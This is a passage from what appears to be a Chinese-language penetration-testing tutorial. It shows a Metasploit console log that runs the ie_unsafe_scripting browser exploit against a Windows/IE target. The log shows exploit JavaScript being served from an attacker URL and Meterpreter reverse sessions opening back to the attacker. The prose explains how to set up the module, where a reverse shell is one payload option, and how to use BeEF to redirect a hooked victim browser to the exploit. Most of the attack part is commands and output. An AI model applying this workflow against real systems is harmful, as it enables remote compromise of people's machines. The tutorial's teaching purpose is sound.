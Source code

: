 ```
msf exploit(ie_unsafe_scripting) > set TECHNIQUE Powershell
TECHNIQUE => Powershell
msf exploit(ie_unsafe_scripting) > rerun
[*] Stopping existing job...

[*] Server stopped.
[*] Reloading module...
[*] Exploit running as background job.

msf exploit(ie_unsafe_scripting) > [*] Using URL: http://192.168.1.163:8080/a
[*] Server started.
[*] 192.168.1.134ie_unsafe_scripting - Request received for /a
[*] 192.168.1.134ie_unsafe_scripting - Sending exploit html/javascript
[*] 192.168.1.134ie_unsafe_scripting - Request received for /a
[*] 192.168.1.134ie_unsafe_scripting - Sending exploit html/javascript
[*] Sending stage (972288 bytes) to 192.168.1.134
[*] Meterpreter session 1 opened (192.168.1.163:4446 -> 192.168.1.134:63098) at 2015-08-09 19:49:09 +0800
[*] 192.168.1.134ie_unsafe_scripting - Request received for /a
[*] 192.168.1.134ie_unsafe_scripting - Sending exploit html/javascript
[*] Sending stage (972288 bytes) to 192.168.1.134
[*] 192.168.1.134ie_unsafe_scripting - Request received for /a
[*] 192.168.1.134ie_unsafe_scripting - Sending exploit html/javascript
[*] Meterpreter session 2 opened (192.168.1.163:4446 -> 192.168.1.134:63099) at 2015-08-09 19:49:37 +0800
Interrupt: use the 'exit' command to quit
msf exploit(ie_unsafe_scripting) > set payload windows/messagebox
payload => windows/messagebox
msf exploit(ie_unsafe_scripting) > rerun
[*] Stopping existing job...

[*] Server stopped.
[*] Reloading module...
[*] Exploit running as background job.
msf exploit(ie_unsafe_scripting) > 
[*] Using URL: http://192.168.1.163:8080/a
[*] Server started.
[*] 192.168.1.134ie_unsafe_scripting - Request received for /a
[*] 192.168.1.134ie_unsafe_scripting - Sending exploit html/javascript
[*] 192.168.1.134ie_unsafe_scripting - Request received for /a
[*] 192.168.1.134ie_unsafe_scripting - Sending exploit html/javascript

```

为了节省空间，上面演示的命令中我把我敲错的命令都自己删掉了 ：）

首先你在Metasploit里面要开启一个Browser Exploit的module，可能为了方便你喜欢手动设置uri为/a，payload可以是reverse shell，这里为了演示用的是MessageBox弹窗

然后在beEF里面让目标浏览器跳转至你的Browser Exploit的uri中，如图：

[![](http://static.wooyun.org//drops/20150811/2015081103412480714.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/2222.png)
